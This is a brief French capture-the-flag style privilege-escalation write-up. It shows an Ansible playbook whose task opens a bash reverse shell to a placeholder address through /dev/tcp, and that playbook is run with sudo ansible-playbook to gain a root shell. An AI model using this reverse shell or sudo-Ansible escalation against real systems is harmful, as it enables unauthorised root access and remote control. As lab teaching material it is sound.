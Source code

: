 # Privesc n°1

## Déploiement

```bash
sudo bash build.sh
```

## Writeup

Fichier play.yaml  : 

```yaml
- hosts: localhost
  tasks:
  - name: revshell
    shell: bash -c 'bash -i >& /dev/tcp/X.X.X.X/XXXX 0>&1'
```

Puis on le déploie

```bash
LANG=C.UTF-8 sudo ansible-playbook play.yaml
```